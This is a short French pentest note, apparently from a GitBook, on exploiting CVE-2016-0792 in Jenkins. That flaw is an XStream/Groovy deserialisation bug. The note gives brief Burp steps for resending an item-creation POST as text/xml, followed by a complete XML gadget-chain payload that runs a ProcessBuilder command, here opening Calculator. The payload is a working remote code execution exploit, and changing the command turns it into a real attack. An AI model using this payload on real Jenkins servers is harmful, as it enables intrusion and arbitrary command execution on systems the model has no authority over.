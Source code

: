 ```yaml
---
description: Unserialisation
---
```


# CVE-2016-0792 Jenkins

Cet Exploit Marche dans le cas ou Groovy est présent dans le classpath et que le code est parsé par Xstream. Cette Technique reste spécifique a la JVM.



### Exploitation

<figure><img src="../.gitbook/assets/Jenkins_Creation.JPG" alt=""><figcaption><p>Il faut dabord se rendre dans la fenetre de creation d'item avec un external job pour capturer la methode post avec burp</p></figcaption></figure>

<figure><img src="../.gitbook/assets/burp.JPG" alt=""><figcaption></figcaption></figure>

* S'assurer de la methode
* Modifier le content-type pour du 'text/xml'
* Observer le resultat dans la réponse.



Dans le cas présent l'app calculator va s'ouvrir.

<pre class="language-groovy"><code class="lang-groovy"><strong>&#x3C;map>
</strong>  &#x3C;entry>
    &#x3C;groovy.util.Expando>
      &#x3C;expandoProperties>
        &#x3C;entry>
          &#x3C;string>hashCode&#x3C;/string>
          &#x3C;org.codehaus.groovy.runtime.MethodClosure>
            &#x3C;delegate class="groovy.util.Expando" reference="../../../.."/>
            &#x3C;owner class="java.lang.ProcessBuilder">
              &#x3C;command>
                &#x3C;string>open&#x3C;/string>
                &#x3C;string>/Applications/Calculator.app&#x3C;/string>
              &#x3C;/command>
              &#x3C;redirectErrorStream>false&#x3C;/redirectErrorStream>
            &#x3C;/owner>
            &#x3C;resolveStrategy>0&#x3C;/resolveStrategy>
            &#x3C;directive>0&#x3C;/directive>
            &#x3C;parameterTypes/>
            &#x3C;maximumNumberOfParameters>0&#x3C;/maximumNumberOfParameters>
            &#x3C;method>start&#x3C;/method>
          &#x3C;/org.codehaus.groovy.runtime.MethodClosure>
        &#x3C;/entry>
      &#x3C;/expandoProperties>
    &#x3C;/groovy.util.Expando>
    &#x3C;int>1&#x3C;/int>
  &#x3C;/entry>
&#x3C;/map>
</code></pre>
